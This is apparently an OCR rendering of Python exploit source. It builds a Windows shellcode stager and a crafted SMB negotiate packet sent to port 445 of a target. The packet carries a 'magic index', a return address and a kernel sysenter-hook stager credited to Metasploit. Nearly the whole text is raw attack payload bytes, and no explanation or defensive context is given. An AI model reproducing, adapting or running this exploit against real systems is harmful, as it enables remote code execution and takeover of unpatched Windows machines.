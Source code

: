 ``` python
shell += b"\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
shell += b"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
shell += b"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
shell += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5"
shell += b"\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
shell += b"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
shell += b"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
shell += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff"
shell += b"\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
shell += b"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xe0\x1d\x2a"
shell += b"\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
shell += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00"
shell += b"\x53\xff\xd5"


host = (target, 445)

buff  = b"\x00\x00\x03\x9e\xff\x53\x4d\x42"
buff += b"\x72\x00\x00\x00\x00\x18\x53\xc8"
buff += b"\x17\x02" # high process ID
buff += b"\x00\xe9\x58\x01\x00\x00"
buff += b"\x00\x00\x00\x00\x00\x00\x00\x00"
buff += b"\x00\x00\xfe\xda\x00\x7b\x03\x02"
buff += b"\x04\x0d\xdf\xff" * 25
buff += b"\x00\x02\x53\x4d"
buff += b"\x42\x20\x32\x2e\x30\x30\x32\x00"
buff += b"\x00\x00\x00\x00" * 37
buff += b"\xff\xff\xff\xff" * 2
buff += b"\x42\x42\x42\x42" * 7
buff += b"\xb4\xff\xff\x3f" # magic index
buff += b"\x41\x41\x41\x41" * 6
buff += b"\x09\x0d\xd0\xff" # return address

# Stager_sysenter_hook from metasploit
buff+=b"\xfc\xfa\xeb\x1e\x5e\x68\x76\x01"
buff+=b"\x00\x00\x59\x0f\x32\x89\x46\x5d"
buff+=b"\x8b\x7e\x61\x89\xf8\x0f\x30\xb9"
buff+=b"\x16\x02\x00\x00\xf3\xa4\xfb\xf4"
buff+=b"\xeb\xfd\xe8\xdd\xff\xff\xff\x6a"
buff+=b"\x00\x9c\x60\xe8\x00\x00\x00\x00"
buff+=b"\x58\x8b\x58\x54\x89\x5c\x24\x24"
buff+=b"\x81\xf9\xde\xc0\xad\xde\x75\x10"
buff+=b"\x68\x76\x01\x00\x00\x59\x89\xd8"
buff+=b"\x31\xd2\x0f\x30\x31\xc0\xeb\x31"
buff+=b"\x8b\x32\x0f\xb6\x1e\x66\x81\xfb"
buff+=b"\xc3\x00\x75\x25\x8b\x58\x5c\x8d"
buff+=b"\x5b\x69\x89\x1a\xb8\x01\x00\x00"
buff+=b"\x80\x0f\xa2\x81\xe2\x00\x00\x10"
buff+=b"\x00\x74\x0e\xba\x00\xff\x3f\xc0"
buff+=b"\x83\xc2\x04\x81\x22\xff\xff\xff"
buff+=b"\x7f\x61\x9d\xc3\xff\xff\xff\xff"
buff+=b"\x00\x04\xdf\xff\x00\x04\xfe\x7f"
buff+=b"\x60\x6a\x30\x58\x99\x64\x8b\x18"
buff+=b"\x39\x53\x0c\x74\x2b\x8b\x43\x10"
buff+=b"\x8b\x40\x3c\x83\xc0\x28\x8b\x08"
buff+=b"\x03\x48\x03\x81\xf9\x6c\x61\x73"
buff+=b"\x73\x75\x15\xe8\x07\x00\x00\x00"
buff+=b"\xe8\x0d\x00\x00\x00\xeb\x09\xb9"
buff+=b"\xde\xc0\xad\xde\x89\xe2\x0f\x34"
buff+=b"\x61\xc3\x81\xc4\x54\xf2\xff\xff"

buff+=shell

```
